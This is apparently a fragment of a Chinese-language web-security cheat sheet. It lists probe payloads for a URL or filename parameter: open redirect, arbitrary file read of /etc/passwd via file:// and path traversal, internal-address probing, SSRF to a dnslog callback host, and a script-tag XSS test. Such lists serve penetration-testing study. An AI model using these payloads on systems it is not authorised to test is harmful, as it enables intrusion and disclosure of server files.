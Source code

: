 URL 跳转

```
url=http://example.com
```

任意文件读取

```
url=file///etc/passwd
filename=../../etc/passwd
```

内网爆破

```
url=http://127.0.0.1
```

ssrf

```
url=http://dnslog.cn
```

xss

```
url=<script>console.log('hacker')</script>
```

